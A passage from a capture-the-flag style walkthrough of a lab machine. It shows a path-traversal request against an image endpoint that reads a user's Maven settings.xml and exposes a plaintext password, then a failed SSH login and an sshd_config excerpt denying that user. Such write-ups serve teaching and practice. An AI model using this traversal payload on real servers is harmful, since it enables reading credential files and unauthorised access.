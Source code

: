 Hidden folders are shown as well, which may or may not come in handy.

After exploring the contents of Frank's home directory, we find an interesting file in `.m2/settings.xml`:

```
$ curl http://10.10.11.204:8080/show_image?img=../../../../../../home/frank/.m2/settings.xml
<?xml version="1.0" encoding="UTF-8"?>
<settings xmlns="http://maven.apache.org/POM/4.0.0" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
        xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 https://maven.apache.org/xsd/maven-4.0.0.xsd">
  <servers>
    <server>
      <id>Inject</id>
      <username>phil</username>
      <password>DocPhillovestoInject123</password>
      <privateKey>${user.home}/.ssh/id_dsa</privateKey>
      <filePermissions>660</filePermissions>
      <directoryPermissions>660</directoryPermissions>
      <configuration></configuration>
    </server>
  </servers>
</settings>

```

We now have login credentials for phil, with password `DocPhillovestoInject123`.

```bash
$ ssh phil@10.10.11.204         
The authenticity of host '10.10.11.204 (10.10.11.204)' can't be established.
ED25519 key fingerprint is SHA256:8MhHRO2LTR9G168dKL9vVmXYYb904O1gv5Eg1Q6njSU.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.11.204' (ED25519) to the list of known hosts.
phil@10.10.11.204's password: 
Permission denied, please try again.
```

In an unexpected twist, the password doesn't seem to work for phil or for frank. Examining /etc/ssh/sshd_config, i see this:
```
# Authentication:

DenyUsers phil
#LoginGraceTime 2m
#PermitRootLogin prohibit-password
#StrictModes yes
#MaxAuthTries 6
#MaxSessions 10

#PubkeyAuthentication yes
```
